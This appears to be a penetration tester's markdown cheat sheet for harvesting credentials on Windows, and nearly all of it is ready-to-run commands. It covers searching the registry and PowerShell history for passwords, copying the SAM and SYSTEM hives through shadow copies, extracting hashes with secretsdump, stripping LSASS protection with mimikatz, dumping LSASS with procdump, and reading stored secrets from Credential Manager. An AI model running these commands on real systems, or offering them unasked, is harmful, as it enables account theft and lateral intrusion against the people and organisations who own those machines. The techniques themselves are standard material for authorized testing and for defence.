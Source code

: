# 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS(cached credentials):
  - **Protected LSASS**:
    - disable from Registry:
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    ```
    - disable with mimikatz:
    ```
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
  ```
  procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
  ```
  - 5.3-mimikatz
  ```
  mimikatz # sekurlsa::logonpasswords
  ```
  
# 6-Windows Credential Manager:
```
vaultcmd /list
VaultCmd /listproperties:"Web Credentials"
VaultCmd /listcreds:"Web Credentials"
VaultCmd /listproperties:"Windows Credentials"
VaultCmd /listcreds:"Windows Credentials"
```
  - The VaultCmd is not able to show the password. we can use this tools [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
    ```
    Import-Module C:\Tools\Get-WebCredentials.ps1
    Get-WebCredentials
    ```
